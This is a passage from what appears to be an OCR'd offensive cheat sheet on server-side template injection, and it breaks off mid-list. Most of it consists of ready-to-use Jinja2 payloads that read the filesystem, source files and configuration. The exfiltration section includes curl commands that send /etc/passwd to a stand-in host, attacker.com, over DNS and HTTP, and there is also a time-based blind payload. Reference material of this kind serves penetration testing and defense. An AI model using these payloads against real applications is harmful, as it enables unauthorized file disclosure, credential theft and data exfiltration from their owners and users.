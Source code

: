     - **Filesystem exploration**
      - Jinja2: `{{ ''.__class__.__mro__[1].__subclasses__()[40]('/').read() }}`
      - ERB: `<%= Dir.entries('/') %>`
      - PHP (Smarty/Twig): Analyzing paths in stacktraces
    
    - **Application reconnaissance**
      - Framework detection
      - Application structure
      - Internal APIs and services
      - Authentication mechanisms
  
  - **Source code disclosure**
    
    - **Template files**
      - Reading template source: `{{ ''.__class__.__mro__[1].__subclasses__()[40]('./app/templates/index.html').read() }}`
    
    - **Configuration files**
      - Reading app config: `{{ ''.__class__.__mro__[1].__subclasses__()[40]('./config.py').read() }}`
      - Environment variables: `{{ config }}`
      - YAML/JSON configs: `{{ ''.__class__.__mro__[1].__subclasses__()[40]('./app/config.yaml').read() }}`
    
    - **Application code**
      - Main app file: `{{ ''.__class__.__mro__[1].__subclasses__()[40]('./app.py').read() }}`
      - Dependencies/libraries: `{{ ''.__class__.__mro__[1].__subclasses__()[40]('./requirements.txt').read() }}`
  
  - **Exfiltration techniques**
    
    - **Out-of-band data exfiltration**
      - DNS queries:
        ```
        {{''.__class__.__mro__[1].__subclasses__()[40]('|curl http://$(cat /etc/passwd | base64).attacker.com').read()}}
        ```
      - HTTP requests:
        ```
        {{''.__class__.__mro__[1].__subclasses__()[40]('|curl -d "$(cat /etc/passwd)" https://attacker.com').read()}}
        ```
    
    - **Database access**
      - Jinja2 (with Flask SQLAlchemy): `{{ config.SQLALCHEMY_DATABASE_URI }}`
      - Direct DB connections (if modules available)
    
    - **Blind exploitation**
      - Time-based techniques: `{{ ''.__class__.__mro__[1].__subclasses__()[40]('|if grep -q secret /etc/passwd; then sleep 5; fi').read() }}`
      - Side-channel extraction
      - Error-based techniques

- **Real-world exploitation scenarios**
  
  - **CMS template editors**
    - Exploiting template customization features
    - Attacking admin-accessible template editing
    - Exploiting theme/plugin editors
  